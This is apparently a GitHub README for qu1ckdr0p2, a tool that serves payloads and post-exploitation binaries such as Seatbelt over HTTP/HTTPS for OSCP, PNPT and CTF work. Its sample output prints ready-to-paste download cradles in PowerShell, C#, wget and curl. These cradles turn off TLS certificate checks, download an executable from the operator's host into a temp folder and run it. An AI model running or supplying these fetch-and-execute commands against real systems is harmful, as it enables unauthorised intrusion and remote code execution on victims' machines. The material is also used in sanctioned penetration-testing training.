 <h1 align="center">
    <img src="img/quick_drop_small.png"></img>

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white)
![Visual Studio Code](https://img.shields.io/badge/Visual%20Studio%20Code-0078d7.svg?style=for-the-badge&logo=visual-studio-code&logoColor=white)
![Prettier](https://img.shields.io/badge/prettier-1A2C34?style=for-the-badge&logo=prettier&logoColor=F7BA3E
)
</h1>

## About
Rapidly host payloads and post-exploitation bins over HTTP or HTTPS. 
Designed to be used on exams like OSCP / PNPT or CTFs HTB / etc.

Pull requests and issues welcome. As are any contributions.
Qu1ckdr0p2 comes with an alias and search feature. The tools are located in the <a href ="https://github.com/byinarie/qu1ckdr0p2-tools">qu1ckdr0p2-tools</a> repository.

By default it will generate a self-signed certificate to use when using the `--https` option, priority is also given to the `tun0` interface when the webserver is running, otherwise it will use `eth0`.

The <a href="https://github.com/byinarie/qu1ckdr0p2-tools/blob/main/config/common.ini">common.ini</a> defines the mapped aliases used within the `--search and -u` options.

When the webserver is running there are several download cradles printed to the screen to copy and paste.

## Install
#### Using pip is the only supported way of installing. Cloning this repository to install will probably break something
```zsh
pip3 install qu1ckdr0p2
serv init --update
```

## Usage
### Serv a single file located in your current working directory
```zsh
serv serve --help
serv serve -f implant.bin --https 443
serv serve -f file.example --http 8080
```

### Serv a file from a mapped alias
The mapped alias numbers for the `-u` option are dynamic so you don't have to remember specific numbers or ever type out a tool name.
```zsh
$ serv serve --search seatbelt
[→] Path: ~/.qu1ckdr0p2/windows/Seatbelt.exe
[→] Alias: seatbelt
[→] Use: 1

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_Any/Seatbelt.exe
[→] Alias: seatbelt_net40_any
[→] Use: 2

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_x64/Seatbelt.exe
[→] Alias: seatbelt_net40_x64
[→] Use: 3

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_x86/Seatbelt.exe
[→] Alias: seatbelt_net40_x86
[→] Use: 4

(...)

$ serv serve --search seatbelt -u 2
[→] Serving: ../../../.qu1ckdr0p2/windows/NetFramework_4.0_Any/Seatbelt.exe
[→] Protocol: https
[→] IP address: 192.168.1.5
[→] Port: 443
[→] Interface: eth0
[→] Using cert: /home/byinarie/.qu1ckdr0p2/certs/cert.pem
[→] Using key: /home/byinarie/.qu1ckdr0p2/certs/key.pem
[→] CTRL+C to quit

[→] URL: https://192.168.1.5:443/Seatbelt.exe

[↓] csharp_ignore_tls:
Add-Type -TypeDefinition "using System.Net;using System.Security.Cryptography.X509Certificates;public class SSLValidator {public static void Ignore() {ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;}}" -Language CSharp; [SSLValidator]::Ignore(); $webclient = New-Object System.Net.WebClient; $webclient.DownloadFile('https://192.168.1.5:443/Seatbelt.exe', 'c:\windows\temp\Seatbelt.exe');Start-Process 'c:\windows\temp\Seatbelt.exe'

[↓] wget_ignore_tls:
wget --no-check-certificate https://192.168.1.5:443/Seatbelt.exe -O /tmp/Seatbelt.exe && chmod +x /tmp/Seatbelt.exe && /tmp/Seatbelt.exe

[↓] curl_ignore_tls:
curl -k https://192.168.1.5:443/Seatbelt.exe -o /tmp/Seatbelt.exe && chmod +x /tmp/Seatbelt.exe && /tmp/Seatbelt.exe

[↓] powershell_ignore_tls:
$AllProtocols = [System.Net.SecurityProtocolType]'Ssl3,Tls,Tls11,Tls12'; [System.Net.ServicePointManager]::SecurityProtocol = $AllProtocols; $WebClient = New-Object System.Net.WebClient; $WebClient.DownloadFile('https://192.168.1.5:443/Seatbelt.exe', 'c:\windows\temp\Seatbelt.exe'); Start-Process 'c:\windows\temp\Seatbelt.exe'
```




## License

MIT

---

